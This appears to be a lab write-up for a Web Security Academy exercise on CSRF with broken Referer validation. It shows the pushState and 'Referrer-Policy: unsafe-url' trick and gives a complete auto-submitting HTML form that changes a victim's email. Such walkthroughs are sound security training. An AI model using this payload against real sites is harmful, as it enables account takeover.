





# Lab: CSRF with broken Referer validation

> Lab Objective: use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

- Login using the provided credentials `wiener:peter`, then inspect the login request and response, you'll notice that the Cookie's SameSite restriction is explicitly assigned as `SameSite=None`
  

- Try change email functionality, then inspect the request and response.

  - Normal Request:
    
  - Replacing the value of the `Referer` header to `https://attacker.com`, results in an invalid request.
    

- But When adding a domain I control before the domain of the website, the request is accepted and processed as normal.
  

- To perform something like that you need 2 things:

  - Use this JS function in your exploit code, which will add the URL of the target in the query string of the domain I control in the `Referer` header:
    `history.pushState("", "", "/?YOUR-LAB-ID.web-security-academy.net")`
    - Which will result to something like that:
      `https://attacker.com/?YOUR-LAB-ID.web-security-academy.net`
  - But most Browsers strip the URL query string from the `Referer` header by default as a security mechanism, in order to cure something like this, add this header to your request headers:
    `Referrer-Policy: unsafe-url`
  - Which ensures that the full URL will be sent, including the query string.

- The Exploit code:

```html
<html>
  <body>
    <form
      action="https://0a64006b044b36da81f60c93007f0062.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input type="hidden" name="email" value="attacker@gmail.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState(
        "",
        "",
        "/?0a64006b044b36da81f60c93007f0062.web-security-academy.net"
      );
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- The Lab is solved successfully/
  
